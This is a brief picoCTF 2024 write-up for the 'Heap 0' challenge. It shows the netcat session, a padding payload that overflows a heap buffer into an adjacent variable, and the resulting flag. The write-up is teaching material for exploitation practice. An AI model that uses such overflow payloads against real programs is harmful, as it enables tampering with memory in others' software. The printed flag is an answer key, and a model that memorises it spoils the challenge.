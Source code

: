 # Heap 0
- Difficulty: Easy
- Category: `Binary Exploitation`  
- Date: 2024-09-10  
tags: `picoCTF 2024` `browser_webshell_solvable` `heap`  
refer to [Source]()

## Solution
``` shell
$ nc tethys.picoctf.net 65145
Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x5ace2d14e2b0  ->   pico
+-------------+----------------+
[*]   0x5ace2d14e2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice:
```
``` shell
Enter your choice: 2
Data for buffer: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico
```
``` shell
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x5ace2d14e2b0  ->   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico
+-------------+----------------+
[*]   0x5ace2d14e2d0  ->   pico
+-------------+----------------+
```
```shell
Enter your choice: 4

YOU WIN
picoCTF{my_first_heap_overflow_76775c7c}
```

``` plain
picoCTF{my_first_heap_overflow_76775c7c}
```

### Improving
